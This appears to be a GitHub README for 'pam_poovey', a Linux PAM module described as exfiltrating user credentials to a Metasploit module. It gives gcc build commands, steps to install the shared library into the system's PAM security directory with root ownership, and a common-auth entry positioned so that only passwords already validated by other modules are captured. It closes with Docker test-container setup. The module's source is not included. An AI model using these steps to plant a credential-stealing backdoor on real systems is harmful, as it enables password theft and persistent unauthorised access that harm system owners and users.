 # pam_poovey

pam_poovey is a pam module that exfiltrates credentials and passes them to a metasploit module to integrate into it's credential management system.

## Building

```sh
gcc -fPIC -DPIC -shared -rdynamic -o pam_poovey.so pam_poovey.c
```

# Installation

The location the module is placed will depend on the distribution of linux/unix that this is being used with but the rest of these steps will provide a proper installation.

```sh
cp pam_poovey.so /lib/x86_64-linux-gnu/security/
chown root:root /lib/x86_64-linux-gnu/security/pam_poovey.so
chmod 755 /lib/x86_64-linux-gnu/security/pam_poovey.so
```

With the module in place for pam to find the last step is to modify the pam configuration files to inform pam which options to use. This will vary from distro to distro, depending on how they configure pam, but you'll want to use this with the other "auth" entries and it should occur at the end so that a user can be authenticated by other modules before exfiltrating the password. This will cut down on false positives.

File: /etc/pam.d/common-auth
```
auth    requisite                       pam_poovey.so
```

## Setup Test/Build Container

```
docker run -ti --rm -p22:2222 -v $HOME/src/poovey:/poovey ubuntu bash
```

```sh
apt update
apt install openssh-server build-essential vim libpam-dev
adduser test
mkdir /var/run/sshd
/usr/sbin/sshd
```